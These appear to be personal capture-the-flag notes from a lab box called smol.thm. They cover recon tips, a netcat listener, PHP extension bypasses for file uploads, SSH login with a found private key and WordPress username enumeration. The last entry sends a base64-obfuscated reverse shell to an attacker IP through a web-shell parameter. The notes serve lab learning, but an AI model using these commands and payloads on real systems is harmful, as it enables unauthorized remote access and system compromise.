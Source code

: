 
.........................................................................................................................................................................
![](../Attachements/Pasted%20image%2020250305113005.png)
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
.........................................................................................................................................................................
AUTORECON
```
The way to run using sudo
sudo env "PATH=$PATH" autorecon [OPTIONS]
sudo $(which autorecon) [OPTIONS]

```

.........................................................................................................................................................................

https://www.youtube.com/watch?v=ImrLbomFYA0&ab_channel=TomPeppercorn
.........................................................................................................................................................................

![](../Attachements/Pasted%20image%2020250218130751.png)
.........................................................................................................................................................................

https://www.youtube.com/watch?v=sL-GUmdQ-nk&t=214s&ab_channel=MarcoSerafini
.........................................................................................................................................................................

https://www.youtube.com/watch?v=O_fSvoSJ-ac&ab_channel=killAndy

.........................................................................................................................................................................

usr/share/webshell
.........................................................................................................................................................................


```bash
nc -lvp 1234 => netcat listner
```
![](../Attachements/Pasted%20image%2020250106141352.png)

ok
![](../Attachements/Pasted%20image%2020250218130640.png)
.........................................................................................................................................................................

Few supported extension wordlist in web application
- .php
- .php3
- .php4
- .php5
- .php6
- .phtml
- 

![](../Attachements/Pasted%20image%2020250106141526.png)
Capture the request and bruteforce extension to find what and all are supported.
.........................................................................................................................................................................

![](../Attachements/Pasted%20image%2020250217140711.png)
............................................................................................................................................................................


............................................................................................................................................................................
command to use id_rsa to login using ssh.
Change the id_rsa permission first before executing the command.
```
ssh -i id_rsa cactus@10.10.52.92
```

............................................................................................................................................................................

In wordpress if you try to login:
![](../Attachements/Pasted%20image%2020250223221902.png)
This will tell password is incorrect or username is incorrect:
If user name is wrong, it tells you.
A way to enumurate username

............................................................................................................................................................................

```
Execute this command in browser to have command executed
http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash
```
http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash

............................................................................................................................................................................



